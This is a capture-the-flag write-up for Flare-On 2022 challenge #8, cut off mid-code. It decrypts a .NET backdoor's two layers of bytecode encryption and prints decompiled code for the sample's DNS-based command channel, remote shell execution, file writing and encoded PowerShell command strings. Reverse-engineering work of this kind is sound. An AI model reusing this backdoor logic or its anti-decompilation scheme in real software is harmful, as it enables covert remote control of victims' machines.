

## Flare-On 2022 - #8 backdoor
___

### Description: 

*I'm such a backdoor, decompile me why don't you...*

`7-zip password: flare`
___

### Solution:

This was the hardest challenge of this year's competition...

Let's start from `Main`:
```c#
// FlareOn.Backdoor.Program
// Token: 0x06000069 RID: 105 RVA: 0x00004038 File Offset: 0x0000B038
public static void Main(string[] args)
{
    try
    {
        try
        {
            FLARE15.flare_74_initialize_globals();
            Program.flared_38_encrypted(args);
        }
        catch (InvalidProgramException e)
        {
            FLARE15.flare_70_handle_exception(e, new object[]
            {
                args
            });
        }
    }
    catch
    {
    }
}
```

Function `flare_74` initializes some global constants:
```c#
// Token: 0x060000A1 RID: 161
        public static void flare_74_initialize_globals()
        {
            FLARE15.d_b = new List<byte>
            {
                0,
                32,
                0,
                1,
                0,
                0,
                141,
                ....
```

Then function `flare_38` is called. However, it cannot be decompiled:
```c#
// Token: 0x06000068 RID: 104
public static void flared_38_encrypted(string[] args)
{
    /*
    An exception occurred when decompiling this method (06000068)

    ICSharpCode.Decompiler.DecompilerException: Error decompiling System.Void FlareOn.Backdoor.Program::flared_38_encrypted(System.String[])

    ---> System.OverflowException: Arithmetic operation resulted in an overflow.
    at ICSharpCode.Decompiler.ILAst.ILAstBuilder.StackSlot.ModifyStack(StackSlot[] stack, Int32 popCount, Int32 pushCount, ByteCode pushDefinition) in D:\a\dnSpy\dnSpy\Extensions\ILSpy.Decompiler\ICSharpCode.Decompiler\ICSharpCode.Decompiler\ILAst\ILAstBuilder.cs:line 47
    at ICSharpCode.Decompiler.ILAst.ILAstBuilder.StackAnalysis(MethodDef methodDef) in D:\a\dnSpy\dnSpy\Extensions\ILSpy.Decompiler\ICSharpCode.Decompiler\ICSharpCode.Decompiler\ILAst\ILAstBuilder.cs:line 387
    at ICSharpCode.Decompiler.ILAst.ILAstBuilder.Build(MethodDef methodDef, Boolean optimize, DecompilerContext context) in D:\a\dnSpy\dnSpy\Extensions\ILSpy.Decompiler\ICSharpCode.Decompiler\ICSharpCode.Decompiler\ILAst\ILAstBuilder.cs:line 271
    at ICSharpCode.Decompiler.Ast.AstMethodBodyBuilder.CreateMethodBody(IEnumerable`1 parameters, MethodDebugInfoBuilder& builder) in D:\a\dnSpy\dnSpy\Extensions\ILSpy.Decompiler\ICSharpCode.Decompiler\ICSharpCode.Decompiler\Ast\AstMethodBodyBuilder.cs:line 112
    at ICSharpCode.Decompiler.Ast.AstMethodBodyBuilder.CreateMethodBody(MethodDef methodDef, DecompilerContext context, AutoPropertyProvider autoPropertyProvider, IEnumerable`1 parameters, Boolean valueParameterIsKeyword, StringBuilder sb, MethodDebugInfoBuilder& stmtsBuilder) in D:\a\dnSpy\dnSpy\Extensions\ILSpy.Decompiler\ICSharpCode.Decompiler\ICSharpCode.Decompiler\Ast\AstMethodBodyBuilder.cs:line 99
    --- End of inner exception stack trace ---
    at ICSharpCode.Decompiler.Ast.AstMethodBodyBuilder.CreateMethodBody(MethodDef methodDef, DecompilerContext context, AutoPropertyProvider autoPropertyProvider, IEnumerable`1 parameters, Boolean valueParameterIsKeyword, StringBuilder sb, MethodDebugInfoBuilder& stmtsBuilder) in D:\a\dnSpy\dnSpy\Extensions\ILSpy.Decompiler\ICSharpCode.Decompiler\ICSharpCode.Decompiler\Ast\AstMethodBodyBuilder.cs:line 99
    at ICSharpCode.Decompiler.Ast.AstBuilder.<>c__DisplayClass90_0.<AddMethodBody>b__0() in D:\a\dnSpy\dnSpy\Extensions\ILSpy.Decompiler\ICSharpCode.Decompiler\ICSharpCode.Decompiler\Ast\AstBuilder.cs:line 1528
    */;
}
```

If we look at its IL, the bytecode seems to be encrypted:
```c#
// Token: 0x06000068 RID: 104
.method public hidebysig static 
    void flared_38_encrypted (
        string[] args
    ) cil managed 
{
    // Header Size: 12 bytes
    // Code Size: 252 (0xFC) bytes
    // LocalVarSig Token: 0x11000031 RID: 49
    .maxstack 3
    .locals init (
        [0] bool,
        [1] class [mscorlib]System.Threading.Mutex,
        [2] bool,
        [3] class FlareOn.Backdoor.FLARE13,
        [4] valuetype FlareOn.Backdoor.FLARE08,
        [5] valuetype FlareOn.Backdoor.FLARE08,
        [6] class [mscorlib]System.Exception
    )

    /* 0x00000000 FF           */ IL_0000: stelem.ref
    /* 0x00000001 FF           */ IL_0001: ldc.i4.6
    /* 0x00000002 00           */ IL_0002: UNKNOWN1
    /* 0x00000003 00           */ IL_0003: UNKNOWN1
    /* 0x00000004 B8           */ IL_0004: UNKNOWN1
    /* 0x00000005 00           */ IL_0005: shr.un
    ....
```

Since the function cannot be executed (it's encrypted), an `InvalidProgramException`
is thrown and `flare_70_handle_exception` is called:
```c#
// Token: 0x060000BB RID: 187
public static object flare_70_handle_exception(InvalidProgramException e, object[] a)
{
    object result;
    try
    {
        result = FLARE15.flared_70_encrypted(e, a);
    }
    catch (InvalidProgramException e2)
    {
        result = FLARE15.flare_71_decrypt_bytecode(e2, new object[]
        {
            e,
            a
        }, FLARE15.wl_m, FLARE15.wl_b);
    }
    return result;
}
```

Same story here: Function `flared_70_encrypted` is encrypted and another `InvalidProgramException`
is thrown, so `flare_71_decrypt_bytecode` takes control:
```c#
// Token: 0x060000BC RID: 188
public static object flare_71_decrypt_bytecode(InvalidProgramException e, object[] args, Dictionary<uint, int> m, byte[] b)
{
    StackTrace stackTrace = new StackTrace(e);
    int metadataToken = stackTrace.GetFrame(0).GetMethod().MetadataToken;
    Module module = typeof(Program).Module;
    MethodInfo methodInfo = (MethodInfo)module.ResolveMethod(metadataToken);
    MethodBase methodBase = module.ResolveMethod(metadataToken);
    ParameterInfo[] parameters = methodInfo.GetParameters();
    Type[] array = new Type[parameters.Length];
    SignatureHelper localVarSigHelper = SignatureHelper.GetLocalVarSigHelper();
    for (int i = 0; i < array.Length; i++)
    {
        array[i] = parameters[i].ParameterType;
    }
    Type declaringType = methodBase.DeclaringType;
    DynamicMethod dynamicMethod = new DynamicMethod("", methodInfo.ReturnType, array, declaringType, true);
    DynamicILInfo dynamicILInfo = dynamicMethod.GetDynamicILInfo();
    MethodBody methodBody = methodInfo.GetMethodBody();
    foreach (LocalVariableInfo localVariableInfo in methodBody.LocalVariables)
    {
        localVarSigHelper.AddArgument(localVariableInfo.LocalType);
    }
    byte[] signature = localVarSigHelper.GetSignature();
    dynamicILInfo.SetLocalSignature(signature);
    foreach (KeyValuePair<uint, int> keyValuePair in m)
    {
        int value = keyValuePair.Value;
        uint key = keyValuePair.Key;
        bool flag = value >= 1879048192 && value < 1879113727;
        int tokenFor;
        if (flag)
        {
            tokenFor = dynamicILInfo.GetTokenFor(module.ResolveString(value));
        }
        else
        {
            MemberInfo memberInfo = declaringType.Module.ResolveMember(value, null, null);
            bool flag2 = memberInfo.GetType().Name == "RtFieldInfo";
            if (flag2)
            {
                tokenFor = dynamicILInfo.GetTokenFor(((FieldInfo)memberInfo).FieldHandle, ((TypeInfo)((FieldInfo)memberInfo).DeclaringType).TypeHandle);
            }
            else
            {
                bool flag3 = memberInfo.GetType().Name == "RuntimeType";
                if (flag3)
                {
                    tokenFor = dynamicILInfo.GetTokenFor(((TypeInfo)memberInfo).TypeHandle);
                }
                else
                {
                    bool flag4 = memberInfo.Name == ".ctor" || memberInfo.Name == ".cctor";
                    if (flag4)
                    {
                        tokenFor = dynamicILInfo.GetTokenFor(((ConstructorInfo)memberInfo).MethodHandle, ((TypeInfo)((ConstructorInfo)memberInfo).DeclaringType).TypeHandle);
                    }
                    else
                    {
                        tokenFor = dynamicILInfo.GetTokenFor(((MethodInfo)memberInfo).MethodHandle, ((TypeInfo)((MethodInfo)memberInfo).DeclaringType).TypeHandle);
                    }
                }
            }
        }
        b[(int)key] = (byte)tokenFor;
        b[(int)(key + 1U)] = (byte)(tokenFor >> 8);
        b[(int)(key + 2U)] = (byte)(tokenFor >> 16);
        b[(int)(key + 3U)] = (byte)(tokenFor >> 24);
    }
    dynamicILInfo.SetCode(b, methodBody.MaxStackSize);
    return dynamicMethod.Invoke(null, args);
}
```

This function uses reflection to decrypt and execute the function at runtime. The hard part is
the relocation. Function uses the keys from the dictionary (passed as parameter) to find all
locations in the bytecode that point to other functions and relocate them. The values of the
dictionary contain tokens which are used to locate the runtime address of the desired function.

Please note that this function does not decrypt bytecode in place; instead it creates a whole
new function (it copies signature, arguments, locals, etc.) where it places the decrypted bytecode
there. This is makes it very hard to debug the decrypted functions, without first extracting their
bytecode.

If we look at the other functions in the binary, we can see that all the `flared_*` functions
are actually encrypted, while the `flare_*` function are wrappers decrypting and calling
the equivalent `flared_*` function.


#### Breaking 1st Encryption Layer

To defeat the first protection layer, we look at the XREFs TO `flare_71_decrypt_bytecode`.
We see that there are **7** XREFs TO:
```
FLARE09.flared_35 ~> That uses FLARE15.pe_m and FLARE15.pe_b for decryption
FLARE12.flared_47 ~> That uses FLARE15.d_m  and FLARE15.d_b for decryption
FLARE15.flared_66 ~> That uses FLARE15.gh_m and FLARE15.gh_b for decryption
FLARE15.flared_67 ~> That uses FLARE15.cl_m and FLARE15.cl_b for decryption
FLARE15.flared_68 ~> That uses FLARE15.rt_b  for decryption
FLARE15.flared_69 ~> That uses FLARE15.gs_m and FLARE15.gs_b for decryption
FLARE15.flared_70 ~> That uses FLARE15.wl_m and FLARE15..wl_b for decryption
```

Knowing that, we can write a decryption script ([DecryptLayer1.cs](./DecryptLayer1.cs)) that
decrypts these **7** functions and creates a new binary (*FlareOn.Backdoor.patched.exe*)
that has the decrypted code of these function.

A note about relocations: For our decryption purposes, there is no need to relocate in the same
way that `flare_71_decrypt_bytecode` does. Since we do static analysis, all we have to do,
is to patch the metadata tokens into bytecode, without resolving any symbols.


#### Breaking 2nd Encryption Layer

After we decrypt the first **7** functions we see that these are actually implement a second
layer of decryption! Let's look at a random `flare_*` function:
```c#
// FlareOn.Backdoor.FLARE04
// Token: 0x0600002B RID: 43 RVA: 0x00002E3C File Offset: 0x00009E3C
public static byte[] flare_18(byte[] d)
{
    byte[] result;
    try
    {
        result = FLARE04.flared_17(d);
    }
    catch (InvalidProgramException e)
    {
        result = (byte[])FLARE15.flare_70(e, new object[]
        {
            d
        });
    }
    return result;
}
```

Function `flared_17` is obviously encrypted, so `flare_70` is going to decrypt and execute it:
```c#
// Token: 0x060000BB RID: 187 RVA: 0x00013E68 File Offset: 0x0001AE68
public static object flare_70(InvalidProgramException e, object[] a)
{
    object result;
    try
    {
        result = FLARE15.flared_70_DECRYPT_PROC_LAYER_2(e, a);
    }
    catch (InvalidProgramException e2)
    {
        result = FLARE15.flare_71_DECRYPT_PROC_LAYER_1(e2, new object[]
        {
            e,
            a
        }, FLARE15.wl_m, FLARE15.wl_b);
    }
    return result;
}
```

The function `flared_70_DECRYPT_PROC_LAYER_2` was decrypted in the 1st layer:
```c#
// FlareOn.Backdoor.FLARE15
// Token: 0x060000BA RID: 186
public static object flared_70_DECRYPT_PROC_LAYER_2(InvalidProgramException e, object[] a)
{
    StackTrace stackTrace = new StackTrace(e);
    int metadataToken = stackTrace.GetFrame(0).GetMethod().MetadataToken;
    string h = FLARE15.flare_66_GENERATE_HASH(metadataToken);
    byte[] d = FLARE15.flare_69_LOAD_CIPHER_FROM_PE_SECTION(h);
    byte[] b = FLARE12.flare_46_RC4_DECRYPT(new byte[]
    {
        18,
        120,
        171,
        223
    }, d);
    return FLARE15.flare_67_RELOCATE_AND_INVOKE(b, metadataToken, a);
}
```

(please note that all `flare_*` functions invoke the equivalent `flared_*` function).

First we have function `flare_66_GENERATE_HASH` that generates a SHA256 from various fields
of the function that we want to decrypt. Then function `flare_69_LOAD_CIPHER_FROM_PE_SECTION`
uses the first **8** characters of the hash to load a section from the PE:
```c#
// Token: 0x060000B8 RID: 184 RVA: 0x00013CEC File Offset: 0x0001ACEC
public static byte[] flared_69(string h)
{
    string location = Assembly.GetExecutingAssembly().Location;
    FLARE09 flare = new FLARE09();
    FLARE09.flare_37(location);
    byte[] array = null;
    using (FileStream fileStream = new FileStream(location, FileMode.Open, FileAccess.Read))
    {
        foreach (FLARE09.IMAGE_SECTION_HEADER image_SECTION_HEADER in flare.ImageSectionHeaders)
        {
            bool flag = h.StartsWith(new string(image_SECTION_HEADER.Name));
            if (flag)
            {
                array = new byte[image_SECTION_HEADER.VirtualSize];
                fileStream.Seek((long)((ulong)image_SECTION_HEADER.PointerToRawData), SeekOrigin.Begin);
                fileStream.Read(array, 0, (int)image_SECTION_HEADER.VirtualSize);
                break;
            }
        }
    }
    return array;
}
```

Then, we have function `flare_46_RC4_DECRYPT` that implements and RC4 decryption using a constant
**4** byte key: `[18, 120, 171, 223]`. Finally `flare_67_RELOCATE_AND_INVOKE` is quite similar to
`flare_71_decrypt_bytecode` as it does the required relocations in the bytecode and invokes it
using reflection:
```c#
public static object flared_67(byte[] b, int tk, object[] a)
{
    Dictionary<uint, FLARE06.OT> dictionary = new Dictionary<uint, FLARE06.OT>
    {
        {
            88U,
            FLARE06.OT.A
        },
        {
            214U,
            FLARE06.OT.A
        },
        /**
         * More entries ....
         */
        {
            65043U,
            FLARE06.OT.A
        },
        {
            97U,
            FLARE06.OT.A
        }
    };
    Module module = typeof(Program).Module;
    MethodBase methodBase = module.ResolveMethod(tk);
    MethodInfo methodInfo = (MethodInfo)methodBase;
    ParameterInfo[] parameters = methodInfo.GetParameters();
    Type[] array = new Type[parameters.Length];
    SignatureHelper localVarSigHelper = SignatureHelper.GetLocalVarSigHelper();
    for (int i = 0; i < array.Length; i++)
    {
        array[i] = parameters[i].ParameterType;
    }
    Type declaringType = methodBase.DeclaringType;
    DynamicMethod dynamicMethod = new DynamicMethod("", methodInfo.ReturnType, array, declaringType, true);
    DynamicILInfo dynamicILInfo = dynamicMethod.GetDynamicILInfo();
    MethodBody methodBody = methodInfo.GetMethodBody();
    foreach (LocalVariableInfo localVariableInfo in methodBody.LocalVariables)
    {
        localVarSigHelper.AddArgument(localVariableInfo.LocalType);
    }
    byte[] signature = localVarSigHelper.GetSignature();
    dynamicILInfo.SetLocalSignature(signature);
    int j = 0;
    while (j < b.Length)
    {
        bool flag = b[j] == 254;
        uint key;
        if (flag)
        {
            key = 65024U + (uint)b[j + 1];
            j++;
        }
        else
        {
            key = (uint)b[j];
        }
        FLARE06.OT ot = dictionary[key];
        j++;
        switch (ot)
        {
        case FLARE06.OT.B:
        {
            uint num = (uint)FLARE15.flare_68(b, j);
            num ^= 2727913149U;
            bool flag2 = num >= 1879048192U && num < 1879113727U;
            int tokenFor;
            if (flag2)
            {
                tokenFor = dynamicILInfo.GetTokenFor(module.ResolveString((int)num));
            }
            else
            {
                Type declaringType2 = methodInfo.DeclaringType;
                Type[] genericTypeArguments = null;
                Type[] genericMethodArguments = null;
                bool flag3 = declaringType2.IsGenericType || declaringType2.IsGenericTypeDefinition;
                if (flag3)
                {
                    genericTypeArguments = declaringType2.GetGenericArguments();
                }
                bool flag4 = methodInfo.IsGenericMethod || methodInfo.IsGenericMethodDefinition;
                if (flag4)
                {
                    genericMethodArguments = methodInfo.GetGenericArguments();
                }
                MemberInfo memberInfo = declaringType2.Module.ResolveMember((int)num, genericTypeArguments, genericMethodArguments);
                bool flag5 = memberInfo.GetType().Name == "RtFieldInfo";
                if (flag5)
                {
                    tokenFor = dynamicILInfo.GetTokenFor(((FieldInfo)memberInfo).FieldHandle, ((TypeInfo)((FieldInfo)memberInfo).DeclaringType).TypeHandle);
                }
                else
                {
                    bool flag6 = memberInfo.GetType().Name == "RuntimeType";
                    if (flag6)
                    {
                        tokenFor = dynamicILInfo.GetTokenFor(((TypeInfo)memberInfo).TypeHandle);
                    }
                    else
                    {
                        bool flag7 = memberInfo.Name == ".ctor" || memberInfo.Name == ".cctor";
                        if (flag7)
                        {
                            tokenFor = dynamicILInfo.GetTokenFor(((ConstructorInfo)memberInfo).MethodHandle, ((TypeInfo)((ConstructorInfo)memberInfo).DeclaringType).TypeHandle);
                        }
                        else
                        {
                            tokenFor = dynamicILInfo.GetTokenFor(((MethodInfo)memberInfo).MethodHandle, ((TypeInfo)((MethodInfo)memberInfo).DeclaringType).TypeHandle);
                        }
                    }
                }
            }
            b[j] = (byte)tokenFor;
            b[j + 1] = (byte)(tokenFor >> 8);
            b[j + 2] = (byte)(tokenFor >> 16);
            b[j + 3] = (byte)(tokenFor >> 24);
            j += 4;
            break;
        }
        case FLARE06.OT.C:
        case FLARE06.OT.E:
            j++;
            break;
        case FLARE06.OT.D:
        case FLARE06.OT.G:
            j += 4;
            break;
        case FLARE06.OT.F:
            j += 2;
            break;
        case FLARE06.OT.H:
            j += 8;
            break;
        case FLARE06.OT.I:
            j += 4 + FLARE15.flare_68(b, j) * 4;
            break;
        }
    }
    dynamicILInfo.SetCode(b, methodBody.MaxStackSize);
    return dynamicMethod.Invoke(null, a);
}
```

To break the second layer of protection, we first extract all PE sections from the main executable
(*FlareOn.Backdoor.exe*) using the [extract_pe_sections.py](./extract_pe_sections.py) script.

Then we iterate over all `flared_*` functions and for each function, we do
what `flared_70_DECRYPT_PROC_LAYER_2` does: We generate a hash from the function, we use it
as a key to locate the PE section, we do the RC4 decrypt, we do the bytecode relocations
(as before) and we patch the decrypted method back to the executable.
At the end we have a new binary (*FlareOn.Backdoor.patched.all.exe*) that has all functions
decrypted.

For more details please see the [DecryptLayer2.cs](./DecryptLayer2.cs) script.


#### Understanding the Backdoor

At this point we have everything decrypted, so we can finally see `flared_38` which is invoked
directly from `Main`:
```c#
// FlareOn.Backdoor.Program
// Token: 0x06000068 RID: 104 RVA: 0x00003F0C File Offset: 0x0000AF0C
public static void flared_38(string[] args)
{
    bool flag;
    using (new Mutex(true, "e94901cd-77d9-44ca-9e5a-125190bcf317", ref flag))
    {
        bool flag2 = flag;
        if (flag2)
        {
            FLARE13 flare = new FLARE13();
            FLARE13.flare_48();
            FLARE03.flare_07();
            for (;;)
            {
                try
                {
                    switch (FLARE13.cs)
                    {
                    case FLARE08.A:
                        FLARE13.flare_50(FLARE07.A);
                        break;
                    case FLARE08.B:
                        FLARE13.flare_50(Program.flare_72());
                        break;
                    case FLARE08.C:
                        FLARE13.flare_50(FLARE05.flare_19());
                        break;
                    case FLARE08.D:
                        FLARE13.flare_50(FLARE05.flare_20());
                        break;
                    case FLARE08.E:
                        FLARE13.flare_50(FLARE14.flare_52());
                        break;
                    case FLARE08.F:
                        FLARE13.flare_50(FLARE05.flare_21());
                        break;
                    case FLARE08.G:
                        FLARE13.flare_50(FLARE05.flare_22());
                        break;
                    case FLARE08.H:
                        FLARE13.flare_50(Program.flare_73());
                        break;
                    }
                }
                catch (Exception ex)
                {
                    try
                    {
                    }
                    catch
                    {
                    }
                }
                Thread.Sleep(1);
            }
        }
    }
}
```

This is a **state machine**. Variable `FLARE13.cs` contains the "current state" (we start from
`FLARE08.A`) and each time we transit to a new state:
```c#
public FLARE16(FLARE08 cs, FLARE07 c)
{
    this.cs = cs;
    this.c = c;
}

FLARE13.t = new Dictionary<FLARE13.FLARE16, FLARE08_STATES>
{
    {
        new FLARE13.FLARE16(FLARE08_STATES.A, FLARE07_TRANSITIONS.A),
        FLARE08_STATES.C
    },
    {
        new FLARE13.FLARE16(FLARE08_STATES.B, FLARE07_TRANSITIONS.A),
        FLARE08_STATES.C
    },
    {
        new FLARE13.FLARE16(FLARE08_STATES.C, FLARE07_TRANSITIONS.B),
        FLARE08_STATES.B
    },
    {
        new FLARE13.FLARE16(FLARE08_STATES.C, FLARE07_TRANSITIONS.C),
        FLARE08_STATES.D
    },
    {
        new FLARE13.FLARE16(FLARE08_STATES.D, FLARE07_TRANSITIONS.B),
        FLARE08_STATES.B
    },
    {
        new FLARE13.FLARE16(FLARE08_STATES.D, FLARE07_TRANSITIONS.D),
        FLARE08_STATES.E
    },
    {
        new FLARE13.FLARE16(FLARE08_STATES.E, FLARE07_TRANSITIONS.B),
        FLARE08_STATES.H
    },
    {
        new FLARE13.FLARE16(FLARE08_STATES.E, FLARE07_TRANSITIONS.E),
        FLARE08_STATES.F
    },
    {
        new FLARE13.FLARE16(FLARE08_STATES.F, FLARE07_TRANSITIONS.B),
        FLARE08_STATES.B
    },
    {
        new FLARE13.FLARE16(FLARE08_STATES.F, FLARE07_TRANSITIONS.C),
        FLARE08_STATES.G
    },
    {
        new FLARE13.FLARE16(FLARE08_STATES.F, FLARE07_TRANSITIONS.F),
        FLARE08_STATES.E
    },
    {
        new FLARE13.FLARE16(FLARE08_STATES.F, FLARE07_TRANSITIONS.G),
        FLARE08_STATES.D
    },
    {
        new FLARE13.FLARE16(FLARE08_STATES.G, FLARE07_TRANSITIONS.B),
        FLARE08_STATES.B
    },
    {
        new FLARE13.FLARE16(FLARE08_STATES.G, FLARE07_TRANSITIONS.D),
        FLARE08_STATES.F
    },
    {
        new FLARE13.FLARE16(FLARE08_STATES.G, FLARE07_TRANSITIONS.F),
        FLARE08_STATES.D
    },
    {
        new FLARE13.FLARE16(FLARE08_STATES.G, FLARE07_TRANSITIONS.H),
        FLARE08_STATES.E
    },
    {
        new FLARE13.FLARE16(FLARE08_STATES.H, FLARE07_TRANSITIONS.A),
        FLARE08_STATES.C
    }
};
```

Below is a quick explanation of each state:
```
A ~> initial state
B ~> something has failed
C ~> generate agent ID and subdomain
D ~> use DNS to fetch a remote command
E ~> execute the command
F ~> command executed successfully. Pack result into DNS subdomains
G ~> send command output back
H ~> command failed
```

The state diagram is shown below:




I won't get into details here, but the Backdoor exchanges data using DNS requests
(it encrypts data as `flare-on.com` subdomains and uses the IPs from the DNS responses
as the received data).

#### Backdoor Commands

Once we reach state `E` function `flared_56` is called to execute a remote shell command:
```c#
// Token: 0x06000099 RID: 153 RVA: 0x00004D1C File Offset: 0x0000BD1C
public static FLARE07 flared_56()
{
    FLARE07 result = FLARE07.B;
    try
    {
        bool flag = FLARE14.ListData.Count > 0 && FLARE14.ListData[0] != null;
        if (flag)
        {
            byte[] array = FLARE14.ListData[0];
            FLARE06.TT taskType = (FLARE06.TT)array[0];
            byte[] array2 = array.Skip(1).ToArray<byte>();
            byte[] resultData = null;
            bool flag2 = taskType == FLARE06.TT.D || taskType == FLARE06.TT.E;
            if (flag2)
            {
                string s;
                try
                {
                    bool flag3 = taskType == FLARE06.TT.E;
                    if (flag3)
                    {
                        array2 = FLARE04.flare_19(array2);
                    }
                    int num = Array.IndexOf<byte>(array2, 124);
                    File.WriteAllBytes(Encoding.UTF8.GetString(array2.Take(num).ToArray<byte>()), array2.Skip(num + 1).ToArray<byte>());
                    s = ":)";
                }
                catch (Exception ex)
                {
                    s = ex.Message;
                }
                resultData = Encoding.UTF8.GetBytes(s);
            }
            else
            {
                bool flag4 = taskType == FLARE06.TT.B;
                if (flag4)
                {
                    array2 = FLARE04.flare_19(array2);
                }
                string cmd = Encoding.UTF8.GetString(array2);
                Thread thread = new Thread(delegate()
                {
                    string text = cmd;
                    bool flag9 = taskType == FLARE06.TT.C;
                    if (flag9)
                    {
                        uint num2 = FLARE14.flare_51(text);
                        bool flag10 = num2 <= 518729469U;
                        if (flag10)
                        {
                            bool flag11 = num2 <= 434841374U;
                            if (flag11)
                            {
                                bool flag12 = num2 <= 350953279U;
                                if (flag12)
                                {
                                    bool flag13 = num2 != 334175660U;
                                    if (flag13)
                                    {
                                        bool flag14 = num2 == 350953279U;
                                        if (flag14)
                                        {
                                            bool flag15 = text == "19";
                                            if (flag15)
                                            {
                                                FLARE14.flare_56(int.Parse(text), "146");
                                                text = FLARE02.flare_04("JChwaW5nIC1uIDEgMTAuNjUuNDUuMyB8IGZpbmRzdHIgL2kgdHRsKSAtZXEgJG51bGw7JChwaW5nIC1uIDEgMTAuNjUuNC41MiB8IGZpbmRzdHIgL2kgdHRsKSAtZXEgJG51bGw7JChwaW5nIC1uIDEgMTAuNjUuMzEuMTU1IHwgZmluZHN0ciAvaSB0dGwpIC1lcSAkbnVsbDskKHBpbmcgLW4gMSBmbGFyZS1vbi5jb20gfCBmaW5kc3RyIC9pIHR0bCkgLWVxICRudWxs");
                                                FLARE14.h.AppendData(Encoding.ASCII.GetBytes(FLARE14.flare_57() + text));
                                            }
                                        }
                                    }
                                    else
                                    {
                                        bool flag16 = text == "18";
                                        if (flag16)
                                        {
                                            FLARE14.flare_56(int.Parse(text), "939");
                                            text = FLARE02.flare_04("JAAoAHAAaQBuAGcAIAAtAG4AIAAxACAAMQAwAC4AMQAwAC4AMgAyAC4ANAAyACAAfAAgAGYAaQBuAGQAcwB0AHIAIAAvAGkAIAB0AHQAbAApACAALQBlAHEAIAAkAG4AdQBsAGwAOwAkACgAcABpAG4AZwAgAC0AbgAgADEAIAAxADAALgAxADAALgAyADMALgAyADAAMAAgAHwAIABmAGkAbgBkAHMAdAByACAALwBpACAAdAB0AGwAKQAgAC0AZQBxACAAJABuAHUAbABsADsAJAAoAHAAaQBuAGcAIAAtAG4AIAAxACAAMQAwAC4AMQAwAC4ANAA1AC4AMQA5ACAAfAAgAGYAaQBuAGQAcwB0AHIAIAAvAGkAIAB0AHQAbAApACAALQBlAHEAIAAkAG4AdQBsAGwAOwAkACgAcABpAG4AZwAgAC0AbgAgADEAIAAxADAALgAxADAALgAxADkALgA1ADAAIAB8ACAAZgBpAG4AZABzAHQAcgAgAC8AaQAgAHQAdABsACkAIAAtAGUAcQAgACQAbgB1AGwAbAA=");
                                            FLARE14.h.AppendData(Encoding.ASCII.GetBytes(FLARE14.flare_57() + text));
                                        }
                                    }
                                }
                                else
                                {
                                    bool flag17 = num2 != 401286136U;
                                    if (flag17)
                                    {
                                        bool flag18 = num2 != 418063755U;
                                        if (flag18)
                                        {
                                            bool flag19 = num2 == 434841374U;
                                            if (flag19)
                                            {
                                                bool flag20 = text == "16";
                                                if (flag20)
                                                {
                                                    FLARE14.flare_56(int.Parse(text), "e87");
                                                    text = FLARE02.flare_04("JAAoAHAAaQBuAGcAIAAtAG4AIAAxACAAMQAwAC4ANgA1AC4ANQAxAC4AMQAxACAAfAAgAGYAaQBuAGQAcwB0AHIAIAAvAGkAIAB0AHQAbAApACAALQBlAHEAIAAkAG4AdQBsAGwAOwAkACgAcABpAG4AZwAgAC0AbgAgADEAIAAxADAALgA2ADUALgA2AC4AMQAgAHwAIABmAGkAbgBkAHMAdAByACAALwBpACAAdAB0AGwAKQAgAC0AZQBxACAAJABuAHUAbABsADsAJAAoAHAAaQBuAGcAIAAtAG4AIAAxACAAMQAwAC4ANgA1AC4ANQAyAC4AMgAwADAAIAB8ACAAZgBpAG4AZABzAHQAcgAgAC8AaQAgAHQAdABsACkAIAAtAGUAcQAgACQAbgB1AGwAbAA7ACQAKABwAGkAbgBnACAALQBuACAAMQAgADEAMAAuADYANQAuADYALgAzACAAfAAgAGYAaQBuAGQAcwB0AHIAIAAvAGkAIAB0AHQAbAApACAALQBlAHEAIAAkAG4AdQBsAGwA");
                                                    FLARE14.h.AppendData(Encoding.ASCII.GetBytes(FLARE14.flare_57() + text));
                                                }
                                            }
                                        }
                                        else
                                        {
                                            bool flag21 = text == "15";
                                            if (flag21)
                                            {
                                                FLARE14.flare_56(int.Parse(text), "197");
                                                text = FLARE02.flare_04("JAAoAHAAaQBuAGcAIAAtAG4AIAAxACAAMQAwAC4AMQAwAC4AMQAwAC4ANAAgAHwAIABmAGkAbgBkAHMAdAByACAALwBpACAAdAB0AGwAKQAgAC0AZQBxACAAJABuAHUAbABsADsAJAAoAHAAaQBuAGcAIAAtAG4AIAAxACAAMQAwAC4AMQAwAC4ANQAwAC4AMQAwACAAfAAgAGYAaQBuAGQAcwB0AHIAIAAvAGkAIAB0AHQAbAApACAALQBlAHEAIAAkAG4AdQBsAGwAOwAkACgAcABpAG4AZwAgAC0AbgAgADEAIAAxADAALgAxADAALgAyADIALgA1ADAAIAB8ACAAZgBpAG4AZABzAHQAcgAgAC8AaQAgAHQAdABsACkAIAAtAGUAcQAgACQAbgB1AGwAbAA7ACQAKABwAGkAbgBnACAALQBuACAAMQAgADEAMAAuADEAMAAuADQANQAuADEAOQAgAHwAIABmAGkAbgBkAHMAdAByACAALwBpACAAdAB0AGwAKQAgAC0AZQBxACAAJABuAHUAbABsAA==");
                                                FLARE14.h.AppendData(Encoding.ASCII.GetBytes(FLARE14.flare_57() + text));
                                            }
                                        }
                                    }
                                    else
                                    {
                                        bool flag22 = text == "14";
                                        if (flag22)
                                        {
                                            FLARE14.flare_56(int.Parse(text), "3a7");
